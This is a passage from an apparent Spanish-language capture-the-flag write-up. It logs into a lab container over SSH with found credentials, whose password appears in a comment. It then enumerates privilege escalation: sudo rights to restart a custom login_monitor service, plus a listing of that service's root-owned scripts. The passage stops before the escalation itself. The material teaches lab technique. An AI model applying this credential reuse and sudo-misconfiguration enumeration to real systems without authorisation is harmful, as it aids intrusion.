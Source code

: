 ## Explotacion de Vulnerabilidades
### Vector de Ataque
Ahora usaremos esas credenciales para loguearnos por **ssh**
### Intrusion
```bash
# Reverse shell o acceso inicial
ssh-keygen -R 172.17.0.2 && ssh memesploit@172.17.0.2 # ( metasploitelmejor )
```

---
## Escalada de Privilegios

###### Usuario `[ Memesploit ]`:
Listando los permisos para este usuario tenemos lo siguiente:
```bash
sudo -l

User memesploit may run the following commands on 4e876123a74e:
    (ALL : ALL) NOPASSWD: /usr/sbin/service login_monitor restart
```

`login_monitor` **no es una herramienta estándar de Linux**. Por el nombre, podría referirse a:
1. **Un script personalizado**: Creado por administradores para auditar inicios de sesión.
2. **Herramienta de monitoreo**: Como `logind` (parte de systemd) o `lastlog`.
3. **Componente de seguridad**: Como `fail2ban` o `pam_exec`.
Ahora buscamos por archivos relacionados con **login_monitor**
```bash
find / -iname "login_monitor" 2>/dev/null
```

Tenemos lo siguiente:
```bash
/etc/login_monitor
/etc/init.d/login_monitor
```

Ahora lo que aremos es ver los archivos de configuracion:
```bash
ls -la

total 36
drwxrwx---  2 root security 4096 Aug 31  2024 .
drwxr-xr-x 55 root root     4096 Jun 23 20:06 ..
-rwxr-xr-x  1 root root      620 Aug 31  2024 actionban.sh
-rwxr-xr-x  1 root root      472 Aug 31  2024 activity.sh
-rw-r--r--  1 root root      200 Aug 31  2024 loggin.conf
-rw-r--r--  1 root root      224 Aug 31  2024 network.conf
-rwxr-xr-x  1 root root      501 Aug 31  2024 network.sh
-rw-r--r--  1 root root      209 Aug 31  2024 security.conf
-rwxr-xr-x  1 root root      488 Aug 31  2024 security.sh
```
